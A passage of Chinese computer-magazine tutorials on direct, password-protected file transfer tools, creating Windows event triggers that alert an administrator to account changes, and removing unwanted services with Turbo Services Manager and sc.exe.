

图3

Alice通过Email、QQ等工具将密钥文件发送给Bob，Bob双击收到的密钥文件（本例为“jimiwenjian.safekey”），在密钥导入窗口（如图4）的“Password”栏中输入与该密钥文件绑定的密码，点击“Import Safe”按钮，SharedSafe即可对该密钥文件进行分析，取得其中包含的文件安全信息。



图4

在下一步窗口（如图5）中的“The Folder to link the Safe to”栏点击“Browse”按钮，可以更改文件夹接收路径。之后Bob点击“Link Folder to Safe”按钮，SharedSafe就可以按照指定路径创建用于接收数据的文件夹。Bob打开该文件夹，可以看到Alice电脑中C盘“jimiwenjian”文件夹中的所有文件正在连续不断地传送过来。当然，Alice和Bob必须同时在线，而且两人都要安装并运行SharedSafe。



图5

#### 二、巧用“暗码”安全传输文档

当使用常规方式（例如电子邮件、QQ等）传输文件时，其安全性并不高，主要原因是数据在传输过程中，并不是直接发送到对方的电脑中，而是需要经过一些中间环节（例如不同的网络服务器等）的层层转发，最后才到达目标主机。如果有黑客使用嗅探软件中途拦截，数据就存在泄密风险。由此看出，使用文件直传是提高安全性的好方法。使用DirectTransFile这款免费绿色软件，就可以快速安全地实现文件直传操作。



图6



图7

这里还以上一个例子为例进行说明：在Alice和Bob的电脑上都安装并运行了DirectTransFile，Alice的任务是将D盘上的“jimi”文件夹传输给Bob。Alice在系统托盘中的DirectTransFile图标右键菜单上点击“Uploads”项，在上传管理窗口左下角点击第一个按钮，在共享设置窗口（如图6）右侧纵向点击第二个按钮，选择D盘上的“jimi”文件夹，DirectTransFile可以将其中的所有文件全部导入进来。当然，也可以点击第一个按钮，导入需要共享的文件。按照同样的方法，可以继续选择需要共享的文件或者文件夹。

之后在窗口底部点击“Register”按钮，DirectTransFile会自动为需要共享的文件建立传输暗语（如图7）。对方只有使用该暗语，才可以传输与之绑定的文件。点击“OK”按钮，返回上传管理窗口。

按照同样的方法，您可以为不同的文件分别创建各自的传输暗语。在上传管理窗口左侧的“Uploads list”列表中显示所有存在的传输暗语，点击对应传输暗语，在“File list”列表中显示与其关联的所有文件。为了加强安全性，DirectTransFile允许为不同的暗语设置密码，在对应传输密语的右键菜单上点击“Set Password”项，可以为其设置密码（如图8）。



图8

之后Alice将该传输暗语和密码发送给Bob。Bob在系统托盘中的DirectTransFile菜单中点击“Downloads”项，在下载管理窗口（如图9）右下角点击第一个按钮，在弹出窗口中输入对应的传输密语，点击“Next”按钮，选择文件保存路径。DirectTransFile可以根据该传输密语和Alice的主机建立直连网络连接。因为Alice已经为该传输暗语设置了密码，Bob必须在下载窗口左侧选择该传输暗语，在其右键菜单中点击“Set Password”项，输入正确密码。之后点击窗口底部第三个按钮执行文件传输操作。Alice主机接收到Bob主机发送来的传输密语后，可以自动寻找和其关联的所有文件，之后将其传输给Bob主机；Bob主机上的DirectTransFile根据这些信息，可以立即执行数据直接下载操作。在下载过程中，可以随时点击暂停按钮暂停下载，点击继续按钮继续执行下载。当进度栏中显示“Loaded!”字样时，表示下载已经完成。按照上述方法，您可以为不同的文件或者文件夹设置传输暗语，您的好友只需输入不同的传输暗语，就可以快速、安全地从您的主机上下载文件了。在下载管理窗口中点击对应的传输密语，在窗口右侧显示具体下载文件信息；如果对应文件带有绿色标记，表示该文件已经下载完成。



图9

### 活用事件触发器，提高系统安全性

郭建伟

在Windows的运行过程中，会产生各种系统事件，这些事件都记录在系统日志文件中。打开事件查看器，其中提供了“应用程序”“安全性”“系统”等三类日志文件。有经验的系统管理员往往通过分析这些系统日志，就可以掌控系统中发生的重要事件。例如，当黑客侵入系统后，其行踪往往被Windows记录在各种监控日志中，管理员据此可以判断黑客对系统的渗透情况。但是，通常情况下，用户必须主动查询系统日志信息，才能发现之前发生的各种事件，这很有些事后诸葛亮的味道。如果在系统发生重要事件时，能让Windows主动通知我们，那就极大地提高了系统管理效率。例如当黑客侵入系统后，系统通过事件触发器自动向您发送相关警报信息，这样您就可以从容不迫地拦截黑客的不法行为，更好地保护系统安全。

#### 一、事件触发器语法简介

在Windows 2003/XP中提供了一个实用工具Eventtriggers.exe，利用该工具我们就可以自由地创建自己需要的系统事件触发器。在Windows 2000中没有该工具，可以将Windows 2003/XP中的Eventtriggers.exe程序复制到Windows 2000的系统文件夹中，即可正常使用。创建事件触发器的语法如下：

```bash
Eventtriggers.exe /Create [/S system [/U [domain] username /P [password]]] /TR triggername /TK taskname [/D description] [/L log]{[/EID id]|[/T type][/SO source]}/RU username [/RP password]
```

其中参数说明如下：

- `[/S system [/U username /P [password]]]`：为远程计算机建立事件触发器，本地操作可省略。  
- `/S system`：`system`指远程计算机IP地址。  
- `/U [domain] username`：远程计算机用户名；若远程机是域服务器，还需指明域名`domain`。  
- `/P [password]`：登录远程计算机密码；若省略，命令执行后系统会提示输入。  
- `/TR triggername`：触发器名称。  
- `/TK taskname`：触发事件后要执行的命令行。  
- `/D description`：事件触发器描述信息。  
- `/L log`：指定监视的NT事件日志，有效类型包括应用程序、系统、安全性、DNS服务器日志和目录日志，可使用通配符`*`，默认值为`*`。  
- `/EID id`：监视系统事件ID号（例如ID 529指使用未知用户名登录系统事件，ID 627指更改账号密码事件等）。  
- `/T type`：监视的事件类型，有效值包括`ERROR`、`INFORMATION`、`WARNING`、`SUCCESSAUDIT`、`FAILUREAUDIT`等。  
- `/SO source`：要监视的事件源。  
- `/RU username`：触发事件后执行命令时使用的用户账户。对于`SYSTEM`账户，值必须是`""`。  
- `/RP [password]`：对应用户密码，`SYSTEM`账户密码可设为空。  

事件触发器一旦创建完成，则无法对其进行修改。

#### 二、事件触发器监控实例

在CMD窗口执行命令：  
`eventtriggers /create /s 192.168.0.1 /u lysofter /eid 624 /tr "建立用户" /tk "net send 192.168.0.9 \"在服务器上新的用户已经建立！\""`（不带大括号）。

其中ID号624指“创建用户账号”事件。当命令运行后，系统会出现密码输入提示，首先应输入用户lysofter的密码，然后就建立了一个名称为“建立用户”的触发器。当在IP地址为`192.168.0.1`的计算机上建立新用户后，系统马上给IP地址为`192.168.0.9`的计算机发送一条消息，说明已经有新用户在远程计算机上建立了。这里使用了`Net send`命令，当然，用户在“TK”参数中也可以使用其他任何命令。

对应地还可以建立“删除用户账号”的触发器。在CMD窗口中执行命令：  
`eventtriggers /create /s 192.168.0.1 /u lysofter /eid 630 /tr "删除用户" /tk "net send 192.168.0.9 \"在服务器上新的用户已经建立！\""`。

其中ID号630表示“删除用户账号”事件。这样当在IP地址为`192.168.0.1`的计算机上执行删除用户操作后，系统马上给IP地址为`192.168.0.9`的计算机发送一条消息，说明远程计算机上的有关用户被删除了。一般来说，黑客侵入电脑后，为了达到更好的控制目的，往往会在电脑上执行建立或者删除用户的操作，这样我们就可以及时发现其行踪了。

在事件查看器中选中某一事件，打开其属性窗口（如图1），在“事件详细信息”面板的“事件ID”栏中可以方便地查看事件ID号。此外，在网址 `http://www.pcpop.com/doc/0/94/94581.shtml` 中可以查询所有Windows事件ID号；在网址 `http://www.eventid.net` 中可以查询指定ID号的系统事件。依照上述方法，只要知道具体事件ID号，就可以随心所欲地创建事件触发器了。

#### 三、查看触发器信息

在创建了事件触发器后，还可以随时查看本地或远程计算机上的触发器信息。具体语法格式为：

```bash
EVENTTRIGGERS /Query [/S system [/U username /P [password]]] [/FO format] [/NH] [/V] [/ID id]
```

其中参数“[/S system [/U username [/P [password]]]]”的含义与上述相同。“/V”参数用来显示触发器的详细情况。例如执行命令“eventtriggers /query /s 192.168.0.1 /u lysofter /v”，就可以将地址为“192.168.0.1”的事件触发器的全部信息都显示出来。参数“/FO format”指定输出显示的格式。有效值包括“TABLE”、“LIST”、“CSV”等。参数“/NH”指定“列标题”在输出中不应该被显示，只对TABLE和CSV格式有效。参数“/ID id”指定要查询的事件触发器的ID号。例如执行命令“eventtriggers /query /s 192.168.0.1 /u lysofter /ID 529”，则只显示指定计算机上的ID号为529的事件触发器的信息。如果不带任何参数的话，只是显示指定计算机上的基本信息。例如执行命令“eventtriggers /query /s 192.168.0.1 /u lysofter”。

如果其中的“id”参数用“*”来代替的话，则删除指定计算机上的所有事件触发器。例如执行命令“eventtriggers /delete /s 192.168.0.1 /u lysofter /tid 100”，则删除指定计算机上的事件ID为100的事件触发器。如果执行命令“eventtriggers /delete /s 192.168.0.1 /u lysofter /tid *”，则删除指定计算机上的所有事件触发器。

#### 四、删除触发器事件

如果希望删除指定计算机上的某个事件触发器的话，具体的语法格式为：

```
EVENTTRIGGERS /Delete [/S system [/U username [/P [password]]]] /TID id [/TID id2 [.../TID idn]]
```

删除事件触发器的方法比较简单，其中参数“/TID id”指明需要删除的事件触发器的ID号。如果其中的“id”参数用“*”来代替的话，则删除指定计算机上的所有事件触发器。

#### 五、开启审核策略

在默认状态下，Windows没有开启审核策略，这给查看安全性事件带来不便。在“开始”→“运行”中输入“gpedit.msc”回车后打开组策略编辑器，在其左侧窗口中依次展开“计算机配置”→“Windows设置”→“安全设置”→“本地策略”→“审核策略”分支，在右侧窗口中双击“审核对象访问”项，在本地安全策略设置对话框中勾选“成功”和“失败”项。这样，就激活了安全性审核了。当执行Eventtriggers.exe命令创建事件触发器，以及触发了指定的事件触发器后，都会在系统目录中的“System32\wbem\logs”文件夹中生成一个名为“CmdTriggerConsumer.log”的日志文件；其中记录了一些和事件触发器有关的简单信息。值得说明的是，Eventtriggers.exe命令的运行需要依靠Task Scheduler服务的支持，该服务必须处于开启状态，否则无法正常创建事件触发器。

### 清除垃圾服务，让系统跑得更顺畅

郭建伟

系统服务是Windows重要的组成部分，实际上，很多第三方软件（甚至是病毒程序）也都喜欢添加自己的服务项目，来达到优先运行的目的。这些服务对我们来说，往往是无关紧要的。清除这些服务（尤其是病毒服务），可以节约系统资源和提高系统的安全性。下面就介绍一些常用的方法，来帮助您毫不费力地删除垃圾服务。

防止操作失误，可以事先对服务进行备份。点击工具栏上第一个按钮，将当前全部服务参数备份为独立的文件（其后缀为“.XML”）。以后如果发现操作失误，只要点击工具栏上第二个按钮，选择事先备份的服务文件，就可以恢复所有的服务项目了。下载地址：http://www.turboirc.com/tools/tsm.rar。

### 一、使用Turbo Services Manager清除垃圾服务

在Turbo Services Manager主窗口（如图1）工具栏上点击第四个按钮，可以列出本机上的所有系统服务项目，包括其名称、类型、运行状态、启动类型、依靠的其他服务编号、关联的文件等等信息。选择需要清理的服务，点击工具栏上的第十一个按钮（名称为“Uninstall”，或者点击“Shift+U”键），即可将其删除掉。如果该服务处于运行状态，需要点击工具栏上的红色停止按钮，结束其运行状态，方可进行删除。利用工具栏上的其他按钮，可以改变选定服务的运行状态（包括启动、暂停、继续等），同时可以更改其启动类型（包括手动、自动、禁用等）。为了更好地管理服务，还可以按照运行状态、启动类型对服务进行分类显示。此外，Turbo Services Manager还可以保存当前所有服务的运行状态。



图1

### 二、使用SC命令清除垃圾服务

在“开始→运行”中执行“msconfig.exe”命令，在系统配置实用程序窗口中打开“服务”面板，勾选“隐藏所有Windows服务”项，就可以显示所有非系统的服务项目了。利用系统自带的“sc.exe”命令，即可轻松删除目标服务。

格式为“Sc <server> [command] [service name] <option1> <option2>...”，其中“<server>”指目标机器IP地址或名称，“[command]”指SC所要执行的开关参数，“[service name]”指系统服务名称。在服务管理器中双击目标服务，在其属性窗口可以查阅服务名称。这里以删除“UTSCSI”服务为例进行说明，在CMD窗口执行命令“SC stop "UTSCSI"”，即可停止该服务，之后执行命令“SC delete "UTSCSI"”，就可以删除该服务了。

……在弹出的确认窗口中点击“是”按钮，即可将该服务彻底删除。当然，您还可以在上述菜单中点击“Create on localhost”项，来创建新的服务。点击“Start Service”或者“Stop Service”项，来启动或者停止目标服务。点击“Edit Service”项，来深入调整目标服务的属性。点击“Copy to”项，可以将目标服务复制到远程主机。下载地址：http://www.eltima.com/download/application_service.exe。



图2

